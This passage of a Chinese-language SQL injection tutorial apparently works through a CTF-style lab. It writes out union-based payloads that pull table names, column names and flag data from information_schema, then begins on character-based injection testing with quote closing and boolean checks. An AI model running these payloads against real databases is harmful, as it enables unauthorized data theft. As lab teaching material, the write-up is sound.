 **6.获取数据库表名**

（1）方法一：一次获取一个表名

-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)

![image-20220608163845276](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608163845276.png)

得到数据库表名：flag。修改limit中第一个数字，如获取第二个表名：limit 1,1，这样就可以获取所有的表名。

-1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)

![image-20220608164004072](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164004072.png)

得到数据库表名：news

（2）方法二：一次性获取当前数据库所有表名

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220608164123631](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164123631.png)

得到数据库sqli中的表名为news和flag

**7.获取表中的字段名**

-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'

![image-20220608164513337](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164513337.png)

**8.获取数据**

-1 union select 1,group_concat(flag) from sqli.flag

![image-20220608164745900](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220608164745900.png)



### **字符型注入

**1.判断是否存在注入**

需要让语句闭合，正常执行，在url结尾输入%23 或者--+，正常闭合，%23为#，注释后面的语句,一定要注意“ ' ”英文输入下，否则容易爆错


去测试是否有sql漏洞

![image-20220609083944558](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609083944558.png)

![image-20220609084037093](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084037093.png)

![image-20220609084958491](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609084958491.png)

发现1’ 报错
和 1 and 1=1,回显
而1 and 1=2,没有回显
得出结论，执行了逻辑语句and ,所以有sql漏洞
